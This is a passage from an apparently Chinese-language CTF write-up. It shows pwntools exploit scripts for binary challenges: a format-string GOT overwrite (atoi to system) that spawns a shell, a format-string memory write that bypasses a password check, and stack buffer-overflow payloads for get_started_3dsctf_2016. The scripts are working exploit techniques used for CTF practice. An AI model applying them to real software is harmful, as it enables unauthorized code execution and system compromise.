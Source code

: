 ```
from pwn import *
p = process('./pwn')
elf = ELF('./pwn')
atoi_got = elf.got['atoi']
system_plt = elf.plt['system']
payload=fmtstr_payload(10,{atoi_got:system_plt})
print(payload)
p.sendline(payload)
p.sendline('/bin///sh\x00')
p.interactive()
```

### 3.2 格式化字符串漏洞可以实现改写内存地址的值

```
from pwn import *
p = process('./pwn')
unk_804C044 = 0x0804C044
payload=fmtstr_payload(10,{unk_804C044:0x1111})
p.sendlineafter("your name:",payload)
p.sendlineafter("your passwd",str(0x1111))
p.interactive()
```

# get_started_3dsctf_2016

这题太坑了……本地打没问题，远程打不通，据说是加了对地址的过滤，也有说是其他原因

本地exp:

```
from pwn import *
context(arch = 'i386', os = 'linux', log_level = 'debug')
p = process('./pwn')
vul_addr = 0x080489B8
payload = b'a' * 56 + p32(vul_addr)
p.sendline(payload)
p.interactive()
```

由于远端服务器中gets函数没有正常退出，它程序会崩溃，就无法获取到flag ，此时它使用exit函数使gets函数强制退出，那么就能获得flag了

```
from pwn import *
p = process('./pwn')
context.log_level = 'debug'
vul_addr = 0x080489A0
exit_addr = 0x0804E6A0
a1 = 814536271
a2 = 425138641
payload = 'a'*(56)
payload += p32(vul_addr) + p32(exit_addr)
payload += p32(a1) + p32(a2)
p.sendline(payload)
p.interactive()
```
